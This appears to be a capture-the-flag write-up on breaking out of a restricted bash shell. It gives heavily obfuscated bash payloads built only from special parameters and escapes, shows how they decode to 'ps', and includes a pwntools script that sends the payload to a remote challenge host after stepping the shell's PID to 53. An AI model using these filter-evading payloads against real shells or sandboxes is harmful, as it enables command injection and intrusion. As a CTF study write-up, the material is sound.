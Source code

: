 ```
bash<<<bash\<\<\<bash\\\<\\\<\\\<bash\\\\\\\<\\\\\\\<\\\\\\\<\\\\\\\$\\\\\\\'\\\\\\\\1\\\$\\\(\\\(1\$\'\\$$\'1\$\'\\$$\'1\$\'\\$$\'1\$\'\\$$\'1\$\'\\$$\'1\\\)\\\)0\\\\\\\\1\\\$\\\(\\\(1\$\'\\$$\'1\$\'\\$$\'1\$\'\\$$\'1$\'\\$$\'1\$\'\\$$\'1\\\)\\\)\\\$\\\(\\\(1\$\'\\$$\'1\$\'\\$$\'1\\\)\\\)\\\\\\\'
```

or

```
${!#}<<<${!#}\<\<\<${!#}\\\<\\\<\\\<${!#}\\\\\\\<\\\\\\\<\\\\\\\<\\\\\\\$\\\\\\\'\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)$#\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\'
```

fully encoded.

This evaluates to these:

```
bash<<<bash\<\<\<bash\\\<\\\<\\\<\\\$\\\'\\\\1\$\(\(1$'\53'1$'\53'1$'\53'1$'\53'1$'\53'1\)\)0\\\\1\$\(\(1$'\53'1$'\53'1$'\53'1$'\53'1$'\53'1\)\)\$\(\(1$'\53'1$'\53'1\)\)\\\'
bash<<<bash\<\<\<\$\'\\1$((1+1+1+1+1+1))0\\1$((1+1+1+1+1+1))$((1+1+1))\'
bash<<<$'\160\163'
ps
```

Here's a short script that puts this into action and tries to execute ps:
```python
from pwn import *

r = remote("35.198.107.77", 1337)

def nextpid():
    r.sendline(b"$$")
    r.readuntil(b"bash: ")
    pid = int(r.readuntil(b":")[:-1], 10)
    print("current pid: {}".format(pid))
    r.readline()
    return pid + 1

while nextpid() != 53:
    pass

exploit = rb"${!#}<<<${!#}\<\<\<${!#}\\\<\\\<\\\<${!#}\\\\\\\<\\\\\\\<\\\\\\\<\\\\\\\$\\\\\\\'\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)$#\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$\$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\'"

print("sending exploit")
r.sendline(exploit)
r.interactive()
```

With this knowlege, writing a script that then sends arbitrary commands is not that hard.
